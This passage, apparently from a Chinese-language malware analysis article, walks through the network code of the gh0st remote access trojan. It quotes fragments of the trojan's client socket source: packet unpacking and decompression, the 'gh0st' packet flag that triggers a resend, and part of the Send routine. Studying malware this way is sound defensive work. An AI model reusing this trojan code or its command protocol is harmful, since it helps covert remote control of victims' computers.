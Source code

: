 ```
                {
                    m_DeCompressionBuffer.ClearBuffer();
                    m_DeCompressionBuffer.Write(pDeCompressionData, destLen);
                    m_pManager->OnReceive(m_DeCompressionBuffer.GetBuffer(0), m_DeCompressionBuffer.GetBufferLen());
                }


                delete[] pData;
                delete[] pDeCompressionData;
            }
            else
                break;
        }
    }
    catch (...)
    {
        m_CompressionBuffer.ClearBuffer();
        Send(NULL, 0);
    }

    closesocket(NULL);

}
```

这是一段非常经典的解包逻辑处理方式，通过这段代码我们也能得到 gh0st 使用的网络通信协议格式。

如果收到的数据大小是 **FLAG_SIZE**（5）个字节，且内容是 **gh0st** 这五个字母（这种序列称为 **Packet Flag**）：

```
if (dwIoSize == FLAG_SIZE && memcmp(lpBuffer, m_bPacketFlag, FLAG_SIZE) == 0)
{
    // 重新发送	
    Send(m_ResendWriteBuffer.GetBuffer(), m_ResendWriteBuffer.GetBufferLen());
    return;
}
```

**m_bPacketFlag** 是一个 5 字节的数据，其在 **CClientSocket** 对象构造函数中设置的：

```
//ClientSocket.cpp 34行
BYTE bPacketFlag[] = { 'g', 'h', '0', 's', 't' };
memcpy(m_bPacketFlag, bPacketFlag, sizeof(bPacketFlag));
```

这个 **Packet Flag** 的作用是 **gh0st** 控制端和被控制端协商好的，如果某一次某一端收到仅仅含有 **Packet Flag**  的数据，该端会重发上一次的数据包。这个我们可以通过发数据的函数中的逻辑可以看出来：

```
//SocketClient.cpp 340行
int CClientSocket::Send(LPBYTE lpData, UINT nSize)
{
    closesocket(NULL);

    m_WriteBuffer.ClearBuffer();

    if (nSize > 0)
    {
        // Compress data
        unsigned long	destLen = (double)nSize * 1.001 + 12;
        GetTickCount();
        LPBYTE			pDest = new BYTE[destLen];

        if (pDest == NULL)
            return 0;
```